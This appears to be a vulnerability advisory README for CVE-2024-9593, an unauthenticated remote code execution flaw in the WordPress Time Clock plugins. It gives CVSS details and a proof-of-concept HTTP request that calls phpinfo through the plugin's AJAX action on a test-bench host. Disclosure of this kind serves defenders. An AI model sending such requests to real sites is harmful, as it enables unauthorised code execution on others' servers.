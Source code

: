 # CVE-2024-9593
Time Clock &lt;= 1.2.2 &amp; Time Clock Pro &lt;= 1.1.4 - Unauthenticated (Limited) Remote Code Execution


# Description:
The Time Clock plugin and Time Clock Pro plugin for WordPress are vulnerable to Remote Code Execution in versions up to, and including, 1.2.2 (for Time Clock) and 1.1.4 (for Time Clock Pro) via the 'etimeclockwp_load_function_callback' function. This allows unauthenticated attackers to execute code on the server. The invoked function's parameters cannot be specified.

# Details
```
Published: 2024-10-18 00:00:00
CVE: CVE-2024-9593
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
CVSS Score: 8.3
Slugs: time-clock-pro, time-clock
```

# POC

```
POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/2
Host: wpscan-vulnerability-test-bench.ddev.site
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

function=phpinfo

```
